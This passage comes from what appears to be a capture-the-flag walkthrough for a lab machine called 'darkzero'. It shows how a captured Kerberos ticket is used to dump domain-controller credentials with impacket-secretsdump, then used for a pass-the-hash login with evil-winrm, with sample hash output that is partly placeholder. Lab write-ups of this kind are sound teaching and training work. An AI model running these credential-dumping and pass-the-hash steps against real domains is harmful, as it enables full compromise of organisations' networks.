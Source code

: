 ### Using the Ticket

Set the environment variable:

```bash
export KRB5CCNAME=$(pwd)/dc01_admin.ccache
```

🎓 **What's `KRB5CCNAME`?**  
This tells any Kerberos-aware tool: "Use this ticket file for authentication instead of asking for username/password."

---

### Dumping Domain Secrets

Now for the grand finale — extracting all domain credentials:

```bash
impacket-secretsdump -k -no-pass -just-dc -target-ip 10.10.11.89 'darkzero.htb/DC01$@DC01.darkzero.htb'
```

🎓 **Parameter Breakdown:**

- `-k` - Use Kerberos authentication (our captured ticket!)  
- `-no-pass` - Don't prompt for password  
- `-just-dc` - Only dump domain controller secrets (faster)  
- `-target-ip` - Force connection to this IP

**Expected Output:**

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5917507bdf2ef2c2b0a869a1cba40726:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a12c5f3d0f7e8e9b1c2d3e4f5a6b7c8d:::
john.w:1103:aad3b435b51404eeaad3b435b51404ee:RFulUtONCOL!_HASH_HERE:::
```

🎯 **The Prize:** Administrator's NTLM hash: `5917507bdf2ef2c2b<REDACTED>`

---

## 🏆 Phase 8: Administrator Access and Root Flag

### Pass-the-Hash Attack

With the NTLM hash, we can authenticate without knowing the password!

```bash
evil-winrm -i 10.10.11.89 -u administrator -H 5917507bdf2ef2c2b<REDACTED>
```

🎓 **How does Pass-the-Hash work?**

In Windows NTLM authentication:
